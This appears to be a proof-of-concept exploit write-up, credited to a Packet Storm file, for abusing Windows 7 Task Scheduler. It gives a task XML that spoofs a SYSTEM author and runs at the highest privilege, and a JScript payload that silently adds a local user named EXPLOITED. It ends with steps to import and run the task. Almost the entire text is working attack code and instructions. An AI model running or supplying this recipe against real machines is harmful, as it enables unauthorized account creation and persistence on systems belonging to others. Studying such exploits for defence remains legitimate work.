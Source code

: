 From：https://packetstormsecurity.com/files/142191

---

TestOS: Win7x86

### 1. get useid

cmd:

`whoami`

### 2. create file "w00tw00t.xml"

code:

```
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>1337-01-01T13:37:07.9601296</Date>
    <Author>NT-AUTHORITY\SYSTEM</Author>
  </RegistrationInfo>
  <Triggers />
  <Principals>
    <Principal id="Author">
      <UserId>win-r7mm90erbmd\a</UserId>
      <LogonType>S4U</LogonType>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>Parallel</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>true</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>false</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>P3D</ExecutionTimeLimit>
    <Priority>7</Priority>
    <RestartOnFailure>
      <Interval>PT1M</Interval>
      <Count>3</Count>
    </RestartOnFailure>
  </Settings>
  <Actions Context="Author">
    <Exec>
      <Command>%USERPROFILE%\Desktop\EXPLOIT.JS</Command>
    </Exec>
  </Actions>
</Task>
```

Change it: `<UserId>win-r7mm90erbmd\a</UserId>`

Save to `%USERPROFILE%\Desktop\w00tw00t.xml`

### 3. create file "EXPLOIT.JS"

code:

```
suidshell = WScript.CreateObject("WScript.Shell");
suidshell.run("cmd.exe /c net user EXPLOITED EXPLOITED /add", 0);
```

Save to `%USERPROFILE%\Desktop\EXPLOIT.JS`

### 4. Run 'taskschd.msc' -> Import Task.. -> Select and Open: w00tw00t.xml -> Run

Add user EXPLOITED

Tips:

- requires administrator permission to import Task




